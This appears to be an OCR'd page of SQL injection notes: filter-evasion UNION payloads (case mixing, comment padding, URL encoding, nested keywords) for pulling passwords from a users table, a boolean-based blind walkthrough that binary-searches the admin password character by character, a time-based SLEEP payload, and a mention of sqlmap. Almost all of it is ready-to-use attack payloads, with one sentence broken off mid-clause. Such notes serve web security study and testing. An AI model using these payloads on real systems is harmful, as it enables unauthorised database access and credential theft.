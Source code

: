 ```sql
' UnIoN SeLeCt * FrOm users -- Variating cases
```

```sql
' UNION/**/SELECT/**/password/**/FROM/**/users -- Comments
```

```sql
' %55%4e%49%4f%4e SELECT password FROM users -- Encoding
```

```sql
' UNION SELSELECTECT * FROM users -- Avoid input stripping
```

```sql
' || (SELECT password FROM users LIMIT 1) -- Alternative keywords (e.g. || instead of UNION)
```

---

## Boolean-Based SQLi Example

Extract the first character of admin password bit by bit using ASCII binary search:

```sql
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>64 --
```

**Loads normally:** first character ASCII > 64, **Error/different response:** ≤ 64

```sql
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>96 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>112 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>104 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>100 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>98 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>97 --
```

If we find out the ASCII value is 97, the first character is 'a'.

---

## Time-Based SQLi Example

Similarly, use the SLEEP function to to extract based on whether

```sql
' AND IF(ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))=97,SLEEP(5),0) --
```

---

## SQL Injection Tool

**sqlmap** [sqlmap.org](https://sqlmap.org)
Automatic SQL Injection & Takeover Tool

---